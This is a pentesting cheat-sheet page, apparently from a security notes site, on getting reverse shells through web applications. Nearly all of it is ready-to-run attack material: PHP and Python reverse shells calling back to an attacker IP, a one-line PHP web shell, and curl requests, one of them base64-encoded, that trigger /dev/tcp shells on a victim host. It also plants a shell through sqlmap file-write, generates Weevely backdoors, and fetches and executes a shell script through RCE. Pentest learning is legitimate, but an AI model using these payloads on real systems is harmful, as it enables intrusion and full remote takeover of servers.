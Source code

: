 ```yaml
---
title: Web Reverse Shell
description: We can get a shell by putting the reverse shell payload into target website.
tags:
    - Privilege Escalation
    - Reverse Shell
    - Web
refs:
date: 2023-07-09
draft: false
---
```


## PHP Reverse Shell (Linux)

```sh
# From local script (it's stored by default in Kali or Parrot)
cp /usr/share/webshell/php/php-reverse-shell.php ./shell.php
# From repo (https://github.com/pentestmonkey/php-reverse-shell)
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
```

Replace the **`$ip`** and the **`$port`** in the script with your local ip and port.  

### Without fsockopen, and for FreeBSD

```php
<?php
set_time_limit (0);
$ip = '10.0.0.1';  // CHANGE THIS
$port = 4444;      // CHANGE THIS

// Spawn shell process
$descriptorspec = array(
0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
2 => array("file", "/tmp/error-output.txt", "a")   // stderr is a pipe that the child will write to
);

$cwd = "/tmp";
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip $port >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);
    echo "command returned $return_value\n";
}
?>
```

### Using Web Shell

Create a PHP script to allow us to execute arbitrary command.

```bash
<?php system($_REQUEST['test']); ?>
```

Then upload it to target website.  
Now we might be able to execute arbitrary command, in short, reverse shell as below.

```bash
curl https://victim.com/uploads/shell.php?test='bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"'

# Base64 encoded payload
curl https://victim.com/uploads/shell.php?test='echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS80NDQ0IDA+JjEi | base64 -d | bash'
```

<br />

## PHP Revese Shell (Windows)

Below are the available payloads.

- [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)
- [https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

<br />

## Python Reverse Shell (Linux)

It's required to upload a payload and command execution in the target website for successful.  
First, create a Python file e.g. **"revshell.py"**.  Replace the ip and the port with your own.

```py
# revshell.py
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])
```

Then upload it to the target website.  
Next start a listener in local machine.

```bash
nc -lvnp 4444
```

Now we need to command execution by somehow in the target website.

```bash
python3 /path/to/revshell.py
```

If success, we should get a shell.

<br />

## ASP.NET

We can use **`.aspx`** file for reverse shell.
Download from [here](https://github.com/borjmz/aspx-reverse-shell).

<br />

## Upload Script via SQLi

```sh
# req.txt: The request settings file which is saved using Burp Suite
sqlmap -r req.txt --dbs --random-agent --batch --file-dest=/var/www/html/shell.php --file-write=./shell.php
```

<br />

## Useful Tools

- **[Weevely3](https://github.com/epinna/weevely3)**

    A web shell generator.

    1. **Generate Backdoor with Password**

        Credentials required.

        ```sh
        weevely generate <password> ./shell.php
        ```

    2. **Upload the Payload to Target Website and Execute Commands**

        ```sh
        weevely https://vulnerable.com/upload/shell.php <password> whoami
        ```

    3. **Get a Shell**

        ```sh
        weevely https://vulnerable.com/upload/shell.php <password>
        ```

<br />

## Shell Script & Remote Code Execution (RCE)

If we can find a website is vulnerable to Remote Code Execution but cannot Reverse Shell, we may be able to do that by uploading the script.

### 1. Create a shell script to reverse shell.

This file is named "revshell.sh".

```sh
#!/bin/bash
bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1
```

### 2. Upload the script to website

Start web server in local machine to upload the script.

```sh
python3 -m http.server 8000
```

Then upload it by remote code execution in target website.

```sh
https://vulnerable.com/?cmd=wget http://<local-ip>:8000/revshell.sh
# or
https://vulnerable.com/?cmd=curl <local-ip>:8000/revshell.sh
```

To confirm the script uploaded, execute the following RCE.

```sh
https://vulnerable.com/?cmd=ls
```

### 3. Get a shell

Start listener for getting a shell in local machine.

```sh
nc -lvnp 4444
```

Now execute the uploaded script via RCE.

```sh
# 1. Change permission for the script
https://vulenrable.com/?cmd=chmod 777 revshell.sh
# 2. Execute the script
https://vulnerable.com/?cmd=./revshell.sh
```

We should now get the target shell.